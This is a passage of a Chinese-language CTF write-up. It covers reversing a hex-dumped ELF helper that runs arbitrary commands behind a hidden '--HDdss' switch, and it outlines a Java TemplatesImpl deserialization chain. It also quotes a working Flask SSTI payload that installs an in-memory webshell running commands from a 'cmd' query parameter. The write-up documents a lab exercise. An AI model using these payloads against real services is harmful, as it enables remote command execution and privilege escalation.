000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000004883ec08488b05c52f00004885c0 7402ffd04883c408c3000000000000000000ff35ca2f0000ff25cc2f0000 0f1f4000ff25ca2f00006800000000e9e0ffffffff25c22f000068010000 00e9d0ffffffff258a2f00006690000000000000000031ed4989d15e4889 e24883e4f050544531c031c9488d3dce000000ff153f2f0000f4662e0f1f 8400000000000f1f4000488d3d892f0000488d05822f00004839f8741548 8b051e2f00004885c07409ffe00f1f8000000000c30f1f8000000000488d 3d592f0000488d35522f00004829fe4889f048c1ee3f48c1f8034801c648 d1fe7414488b05ed2e00004885c07408ffe0660f1f440000c30f1f800000 0000f30f1efa803d152f000000752b5548833dca2e0000004889e5740c48 8b3df62e0000e829ffffffe864ffffffc605ed2e0000015dc30f1f00c30f 1f8000000000f30f1efae977ffffff554889e54883ec20897dec488975e0 c745fc01000000eb6f8b45fc4898488d14c500000000488b45e04801d048 8b004889c6488d05820e00004889c7e8a6feffff85c0753e8b45fc489848 83c001488d14c500000000488b45e04801c28b45fc48984883c001488d0c c500000000488b45e04801c8488b004889d64889c7e874feffff8345fc01 8b45fc83c0013945ec7f86b800000000c9c300004883ec084883c408c300 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 0000010002002d2d484464737300011b033b280000000400000014f0ffff 7400000044f0ffff9c00000054f0ffff440000003df1ffffb40000001400 000000000000017a5200017810011b0c070890010710140000001c000000 08f0ffff2200000000000000000000001400000000000000017a52000178 10011b0c070890010000240000001c00000098efffff30000000000e1046 0e184a0f0b770880003f1a3b2a332422000000001400000044000000a0ef ffff0800000000000000000000001c0000005c00000081f0ffff99000000 00410e108602430d0602940c070800000000000004000000100000000100 0000474e5500000000000300000002000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000004011 000000000000001100000000000001000000000000003000000000000000 0c0000000000000000100000000000000d00000000000000e41100000000 00001900000000000000d03d0000000000001b0000000000000008000000 000000001a00000000000000d83d0000000000001c000000000000000800 000000000000f5feff6f00000000b0030000000000000500000000000000 98040000000000000600000000000000d8030000000000000a0000000000 000096000000000000000b00000000000000180000000000000015000000 0000000000000000000000000300000000000000e83f0000000000000200 000000000000300000000000000014000000000000000700000000000000 170000000000000030060000000000000700000000000000700500000000 00000800000000000000c000000000000000090000000000000018000000 00000000fbffff6f000000000000000800000000feffff6f000000004005 000000000000ffffff6f000000000100000000000000f0ffff6f00000000 2e05000000000000f9ffff6f000000000300000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000e03d00000000 000000000000000000000000000000000000361000000000000046100000 00000000000000000000000018400000000000004743433a202844656269 616e2031342e322e302d3139292031342e322e3000000000000000000000 00000000000000000000000000000000010000000400f1ff000000000000 000000000000000000000900000001001300e42000000000000020000000 00000000130000000400f1ff000000000000000000000000000000001e00 000002000e00901000000000000000000000000000002000000002000e00 c01000000000000000000000000000003300000002000e00001100000000 000000000000000000004900000001001a00204000000000000001000000 000000005500000001001500d83d00000000000000000000000000007c00 000002000e00401100000000000000000000000000008800000001001400 d03d0000000000000000000000000000a70000000400f1ff000000000000 00000000000000000000130000000400f1ff000000000000000000000000 00000000ad00000001001200e02000000000000000000000000000000000 00000400f1ff00000000000000000000000000000000bb00000001001600 e03d0000000000000000000000000000c4000000000011000c2000000000 00000000000000000000d700000001001800e83f00000000000000000000 00000000ed00000012000000000000000000000000000000000000000a01 000020000000000000000000000000000000000000003501000020001900 104000000000000000000000000000002601000010001900204000000000 000000000000000000002d01000012020f00e41100000000000000000000 000000003301000010001900104000000000000000000000000000004001 000012000000000000000000000000000000000000005301000020000000 000000000000000000000000000000006201000011021900184000000000 000000000000000000006f01000011001000002000000000000004000000 000000007e01000010001a00284000000000000000000000000000003901 000012000e00601000000000000022000000000000008301000010001a00 204000000000000000000000000000008f01000012000e00491100000000 000099000000000000009401000012000000000000000000000000000000 00000000a70100001102190020400000000000000000000000000000b301 00002000000000000000000000000000000000000000cd01000022000000 00000000000000000000000000000000e801000012020b00001000000000 000000000000000000000053637274312e6f005f5f6162695f7461670063 727473747566662e6300646572656769737465725f746d5f636c6f6e6573 005f5f646f5f676c6f62616c5f64746f72735f61757800636f6d706c6574 65642e30005f5f646f5f676c6f62616c5f64746f72735f6175785f66696e 695f61727261795f656e747279006672616d655f64756d6d79005f5f6672 616d655f64756d6d795f696e69745f61727261795f656e74727900726576 2e63005f5f4652414d455f454e445f5f005f44594e414d4943005f5f474e 555f45485f4652414d455f484452005f474c4f42414c5f4f46465345545f 5441424c455f005f5f6c6962635f73746172745f6d61696e40474c494243 5f322e3334005f49544d5f64657265676973746572544d436c6f6e655461 626c65005f6564617461005f66696e69005f5f646174615f737461727400 737472636d7040474c4942435f322e322e35005f5f676d6f6e5f73746172 745f5f005f5f64736f5f68616e646c65005f494f5f737464696e5f757365 64005f656e64005f5f6273735f7374617274006d61696e00657865637670 40474c4942435f322e322e35005f5f544d435f454e445f5f005f49544d5f 7265676973746572544d436c6f6e655461626c65005f5f6378615f66696e 616c697a6540474c4942435f322e322e35005f696e697400002e73796d74 6162002e737472746162002e7368737472746162002e6e6f74652e676e75 2e70726f7065727479002e6e6f74652e676e752e6275696c642d6964002e 696e74657270002e676e752e68617368002e64796e73796d002e64796e73 7472002e676e752e76657273696f6e002e676e752e76657273696f6e5f72 002e72656c612e64796e002e72656c612e706c74002e696e6974002e706c 742e676f74002e74657874002e66696e69002e726f64617461002e65685f 6672616d655f686472002e65685f6672616d65002e6e6f74652e4142492d 746167002e696e69745f6172726179002e66696e695f6172726179002e64 796e616d6963002e676f742e706c74002e64617461002e627373002e636f 6d6d656e7400000000000000000000000000000000000000000000000000 000000000000000000000000000000000000000000000000000000000000 000000000000000000001b00000007000000020000000000000050030000 000000005003000000000000200000000000000000000000000000000800 00000000000000000000000000002e000000070000000200000000000000 700300000000000070030000000000002400000000000000000000000000 000004000000000000000000000000000000410000000100000002000000 00000000940300000000000094030000000000001c000000000000000000 0000000000000100000000000000000000000000000049000000f6ffff6f 0200000000000000b003000000000000b003000000000000240000000000 000005000000000000000800000000000000000000000000000053000000 0b0000000200000000000000d803000000000000d803000000000000c000 000000000000060000000100000008000000000000001800000000000000 5b0000000300000002000000000000009804000000000000980400000000 000096000000000000000000000000000000010000000000000000000000 0000000063000000ffffff6f02000000000000002e050000000000002e05 000000000000100000000000000005000000000000000200000000000000 020000000000000070000000feffff6f0200000000000000400500000000 000040050000000000003000000000000000060000000100000008000000 0000000000000000000000007f0000000400000002000000000000007005 0000000000007005000000000000c0000000000000000500000000000000 080000000000000018000000000000008900000004000000420000000000 000030060000000000003006000000000000300000000000000005000000 180000000800000000000000180000000000000093000000010000000600 000000000000001000000000000000100000000000001700000000000000 0000000000000000040000000000000000000000000000008e0000000100 000006000000000000002010000000000000201000000000000030000000 000000000000000000000000100000000000000010000000000000009900 000001000000060000000000000050100000000000005010000000000000 080000000000000000000000000000000800000000000000080000000000 0000a2000000010000000600000000000000601000000000000060100000 000000008201000000000000000000000000000010000000000000000000 000000000000a8000000010000000600000000000000e411000000000000 e41100000000000009000000000000000000000000000000040000000000 00000000000000000000ae00000001000000020000000000000000200000 0000000000200000000000000c0000000000000000000000000000000400 0000000000000000000000000000b6000000010000000200000000000000 0c200000000000000c200000000000002c00000000000000000000000000 000004000000000000000000000000000000c40000000100000002000000 0000000038200000000000003820000000000000ac000000000000000000 00000000000008000000000000000000000000000000ce00000007000000 0200000000000000e420000000000000e420000000000000200000000000 0000000000000000000004000000000000000000000000000000dc000000 0e0000000300000000000000d03d000000000000d02d0000000000000800 000000000000000000000000000008000000000000000800000000000000 e80000000f0000000300000000000000d83d000000000000d82d00000000 000008000000000000000000000000000000080000000000000008000000 00000000f4000000060000000300000000000000e03d000000000000e02d 000000000000e00100000000000006000000000000000800000000000000 10000000000000009d000000010000000300000000000000c03f00000000 0000c02f0000000000002800000000000000000000000000000008000000 000000000800000000000000fd000000010000000300000000000000e83f 000000000000e82f00000000000028000000000000000000000000000000 080000000000000008000000000000000601000001000000030000000000 000010400000000000001030000000000000100000000000000000000000 00000000080000000000000000000000000000000c010000080000000300 000000000000204000000000000020300000000000000800000000000000 000000000000000001000000000000000000000000000000110100000100 00003000000000000000000000000000000020300000000000001f000000 000000000000000000000000010000000000000001000000000000000100 000002000000000000000000000000000000000000004030000000000000 78030000000000001d000000120000000800000000000000180000000000 0000090000000300000000000000000000000000000000000000b8330000 00000000ee01000000000000000000000000000001000000000000000000 000000000000110000000300000000000000000000000000000000000000 a6350000000000001a010000000000000000000000000000010000000000 00000000000000000000
```

我们把 hex 存在本地，再 `xxd -r -p rev.hex > rev` 即可得到 bin 的 `rev` .

我们 `objdump -d rev > disassembly.txt` 即可将 `rev` 反汇编.

```nasm
rev：     文件格式 elf64-x86-64

Disassembly of section .init:

0000000000001000 <_init>:
    1000:	48 83 ec 08          	sub    $0x8,%rsp
    1004:	48 8b 05 c5 2f 00 00 	mov    0x2fc5(%rip),%rax        # 3fd0 <__gmon_start__@Base>
    100b:	48 85 c0             	test   %rax,%rax
    100e:	74 02                	je     1012 <_init+0x12>
    1010:	ff d0                	call   *%rax
    1012:	48 83 c4 08          	add    $0x8,%rsp
    1016:	c3                   	ret

Disassembly of section .plt:

0000000000001020 <strcmp@plt-0x10>:
    1020:	ff 35 ca 2f 00 00    	push   0x2fca(%rip)        # 3ff0 <_GLOBAL_OFFSET_TABLE_+0x8>
    1026:	ff 25 cc 2f 00 00    	jmp    *0x2fcc(%rip)        # 3ff8 <_GLOBAL_OFFSET_TABLE_+0x10>
    102c:	0f 1f 40 00          	nopl   0x0(%rax)

0000000000001030 <strcmp@plt>:
    1030:	ff 25 ca 2f 00 00    	jmp    *0x2fca(%rip)        # 4000 <strcmp@GLIBC_2.2.5>
    1036:	68 00 00 00 00       	push   $0x0
    103b:	e9 e0 ff ff ff       	jmp    1020 <_init+0x20>

0000000000001040 <execvp@plt>:
    1040:	ff 25 c2 2f 00 00    	jmp    *0x2fc2(%rip)        # 4008 <execvp@GLIBC_2.2.5>
    1046:	68 01 00 00 00       	push   $0x1
    104b:	e9 d0 ff ff ff       	jmp    1020 <_init+0x20>

Disassembly of section .plt.got:

0000000000001050 <__cxa_finalize@plt>:
    1050:	ff 25 8a 2f 00 00    	jmp    *0x2f8a(%rip)        # 3fe0 <__cxa_finalize@GLIBC_2.2.5>
    1056:	66 90                	xchg   %ax,%ax

Disassembly of section .text:

0000000000001060 <_start>:
    1060:	31 ed                	xor    %ebp,%ebp
    1062:	49 89 d1             	mov    %rdx,%r9
    1065:	5e                   	pop    %rsi
    1066:	48 89 e2             	mov    %rsp,%rdx
    1069:	48 83 e4 f0          	and    $0xfffffffffffffff0,%rsp
    106d:	50                   	push   %rax
    106e:	54                   	push   %rsp
    106f:	45 31 c0             	xor    %r8d,%r8d
    1072:	31 c9                	xor    %ecx,%ecx
    1074:	48 8d 3d ce 00 00 00 	lea    0xce(%rip),%rdi        # 1149 <main>
    107b:	ff 15 3f 2f 00 00    	call   *0x2f3f(%rip)        # 3fc0 <__libc_start_main@GLIBC_2.34>
    1081:	f4                   	hlt
    1082:	66 2e 0f 1f 84 00 00 	cs nopw 0x0(%rax,%rax,1)
    1089:	00 00 00 
    108c:	0f 1f 40 00          	nopl   0x0(%rax)

0000000000001090 <deregister_tm_clones>:
    1090:	48 8d 3d 89 2f 00 00 	lea    0x2f89(%rip),%rdi        # 4020 <__TMC_END__>
    1097:	48 8d 05 82 2f 00 00 	lea    0x2f82(%rip),%rax        # 4020 <__TMC_END__>
    109e:	48 39 f8             	cmp    %rdi,%rax
    10a1:	74 15                	je     10b8 <deregister_tm_clones+0x28>
    10a3:	48 8b 05 1e 2f 00 00 	mov    0x2f1e(%rip),%rax        # 3fc8 <_ITM_deregisterTMCloneTable@Base>
    10aa:	48 85 c0             	test   %rax,%rax
    10ad:	74 09                	je     10b8 <deregister_tm_clones+0x28>
    10af:	ff e0                	jmp    *%rax
    10b1:	0f 1f 80 00 00 00 00 	nopl   0x0(%rax)
    10b8:	c3                   	ret
    10b9:	0f 1f 80 00 00 00 00 	nopl   0x0(%rax)

00000000000010c0 <register_tm_clones>:
    10c0:	48 8d 3d 59 2f 00 00 	lea    0x2f59(%rip),%rdi        # 4020 <__TMC_END__>
    10c7:	48 8d 35 52 2f 00 00 	lea    0x2f52(%rip),%rsi        # 4020 <__TMC_END__>
    10ce:	48 29 fe             	sub    %rdi,%rsi
    10d1:	48 89 f0             	mov    %rsi,%rax
    10d4:	48 c1 ee 3f          	shr    $0x3f,%rsi
    10d8:	48 c1 f8 03          	sar    $0x3,%rax
    10dc:	48 01 c6             	add    %rax,%rsi
    10df:	48 d1 fe             	sar    $1,%rsi
    10e2:	74 14                	je     10f8 <register_tm_clones+0x38>
    10e4:	48 8b 05 ed 2e 00 00 	mov    0x2eed(%rip),%rax        # 3fd8 <_ITM_registerTMCloneTable@Base>
    10eb:	48 85 c0             	test   %rax,%rax
    10ee:	74 08                	je     10f8 <register_tm_clones+0x38>
    10f0:	ff e0                	jmp    *%rax
    10f2:	66 0f 1f 44 00 00    	nopw   0x0(%rax,%rax,1)
    10f8:	c3                   	ret
    10f9:	0f 1f 80 00 00 00 00 	nopl   0x0(%rax)

0000000000001100 <__do_global_dtors_aux>:
    1100:	f3 0f 1e fa          	endbr64
    1104:	80 3d 15 2f 00 00 00 	cmpb   $0x0,0x2f15(%rip)        # 4020 <__TMC_END__>
    110b:	75 2b                	jne    1138 <__do_global_dtors_aux+0x38>
    110d:	55                   	push   %rbp
    110e:	48 83 3d ca 2e 00 00 	cmpq   $0x0,0x2eca(%rip)        # 3fe0 <__cxa_finalize@GLIBC_2.2.5>
    1115:	00 
    1116:	48 89 e5             	mov    %rsp,%rbp
    1119:	74 0c                	je     1127 <__do_global_dtors_aux+0x27>
    111b:	48 8b 3d f6 2e 00 00 	mov    0x2ef6(%rip),%rdi        # 4018 <__dso_handle>
    1122:	e8 29 ff ff ff       	call   1050 <__cxa_finalize@plt>
    1127:	e8 64 ff ff ff       	call   1090 <deregister_tm_clones>
    112c:	c6 05 ed 2e 00 00 01 	movb   $0x1,0x2eed(%rip)        # 4020 <__TMC_END__>
    1133:	5d                   	pop    %rbp
    1134:	c3                   	ret
    1135:	0f 1f 00             	nopl   (%rax)
    1138:	c3                   	ret
    1139:	0f 1f 80 00 00 00 00 	nopl   0x0(%rax)

0000000000001140 <frame_dummy>:
    1140:	f3 0f 1e fa          	endbr64
    1144:	e9 77 ff ff ff       	jmp    10c0 <register_tm_clones>

0000000000001149 <main>:
    1149:	55                   	push   %rbp
    114a:	48 89 e5             	mov    %rsp,%rbp
    114d:	48 83 ec 20          	sub    $0x20,%rsp
    1151:	89 7d ec             	mov    %edi,-0x14(%rbp)
    1154:	48 89 75 e0          	mov    %rsi,-0x20(%rbp)
    1158:	c7 45 fc 01 00 00 00 	movl   $0x1,-0x4(%rbp)
    115f:	eb 6f                	jmp    11d0 <main+0x87>
    1161:	8b 45 fc             	mov    -0x4(%rbp),%eax
    1164:	48 98                	cltq
    1166:	48 8d 14 c5 00 00 00 	lea    0x0(,%rax,8),%rdx
    116d:	00 
    116e:	48 8b 45 e0          	mov    -0x20(%rbp),%rax
    1172:	48 01 d0             	add    %rdx,%rax
    1175:	48 8b 00             	mov    (%rax),%rax
    1178:	48 89 c6             	mov    %rax,%rsi
    117b:	48 8d 05 82 0e 00 00 	lea    0xe82(%rip),%rax        # 2004 <_IO_stdin_used+0x4>
    1182:	48 89 c7             	mov    %rax,%rdi
    1185:	e8 a6 fe ff ff       	call   1030 <strcmp@plt>
    118a:	85 c0                	test   %eax,%eax
    118c:	75 3e                	jne    11cc <main+0x83>
    118e:	8b 45 fc             	mov    -0x4(%rbp),%eax
    1191:	48 98                	cltq
    1193:	48 83 c0 01          	add    $0x1,%rax
    1197:	48 8d 14 c5 00 00 00 	lea    0x0(,%rax,8),%rdx
    119e:	00 
    119f:	48 8b 45 e0          	mov    -0x20(%rbp),%rax
    11a3:	48 01 c2             	add    %rax,%rdx
    11a6:	8b 45 fc             	mov    -0x4(%rbp),%eax
    11a9:	48 98                	cltq
    11ab:	48 83 c0 01          	add    $0x1,%rax
    11af:	48 8d 0c c5 00 00 00 	lea    0x0(,%rax,8),%rcx
    11b6:	00 
    11b7:	48 8b 45 e0          	mov    -0x20(%rbp),%rax
    11bb:	48 01 c8             	add    %rcx,%rax
    11be:	48 8b 00             	mov    (%rax),%rax
    11c1:	48 89 d6             	mov    %rdx,%rsi
    11c4:	48 89 c7             	mov    %rax,%rdi
    11c7:	e8 74 fe ff ff       	call   1040 <execvp@plt>
    11cc:	83 45 fc 01          	addl   $0x1,-0x4(%rbp)
    11d0:	8b 45 fc             	mov    -0x4(%rbp),%eax
    11d3:	83 c0 01             	add    $0x1,%eax
    11d6:	39 45 ec             	cmp    %eax,-0x14(%rbp)
    11d9:	7f 86                	jg     1161 <main+0x18>
    11db:	b8 00 00 00 00       	mov    $0x0,%eax
    11e0:	c9                   	leave
    11e1:	c3                   	ret

Disassembly of section .fini:

00000000000011e4 <_fini>:
    11e4:	48 83 ec 08          	sub    $0x8,%rsp
    11e8:	48 83 c4 08          	add    $0x8,%rsp
    11ec:	c3                   	ret
```

我们审计代码可以发现，这个神奇的 `rev` 只有参数与存储在 `0xe82` 的字符串 `--HDdss` 匹配，才会调用 `execvp` 执行下一个参数指定的命令.

于是我们 `rev --HDdss cat /flag` 即可得到 flag.


/*

我曾经尝试过的另一种解决无回显的方法，即内存马，但阅读了诸多资料仍未找到合适的内存马.

于是我们寻求 *@fifker*  的帮助找到了一个可用的内存马.

```python
{{url_for.__globals__['__builtins__']['eval']("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(request.args.get(\'cmd\')).read())\")==None else resp)",{'request':url_for.__globals__['request'],'app':url_for.__globals__['sys'].modules['__main__'].__dict__['app']})}}
```

以及简便的提权方法.


*/

## Week 5

### **23 第二十三章 幻境迷心·皇陨星沉(大结局)**

TemplatesImpl 利用链.

我们审计代码，这里贴上关键的源码.

```java
   public int hashCode() {
      this.wagTail(this.object, this.methodName, this.paramTypes, this.args);
      return Objects.hash(new Object[]{this.id});
   }
```

```java
   default Object wagTail(Object input, String methodName, Class[] paramTypes, Object[] args) {
      try {
         Class cls = input.getClass();
         Method method = cls.getMethod(methodName, paramTypes);
         return method.invoke(input, args);
      } catch (Exception var7) {
         var7.printStackTrace();
         return null;
      }
   }
```

```java
   public void importDogsBase64(String base64Data) {
      try {
         ByteArrayInputStream bais = new ByteArrayInputStream(Base64.getDecoder().decode(base64Data));
         Throwable var3 = null;

         try {
            ObjectInputStream ois = new ObjectInputStream(bais);
            Throwable var5 = null;

            try {
               Collection<Dog> imported = (Collection)ois.readObject();
               Iterator var7 = imported.iterator();

               while(var7.hasNext()) {
                  Dog dog = (Dog)var7.next();
                  dog.setId(this.nextId++);
                  this.dogs.put(dog.getId(), dog);
               }
            }
```

我们的序列化 dog 上传后会被 `importDogsBase64()` 反序列化并 put 进 HashMap，触发 `hashCode()` ，而 `hashCode()` 又会通过 `wagTail()` 调用我们的 payload 中名为 `methodName` 的 method 并调用它.

因为我们要打 jdk 中的 TemplatesImpl 利用链，只需要 `setField(dog, "methodName", "newTransformer");` .

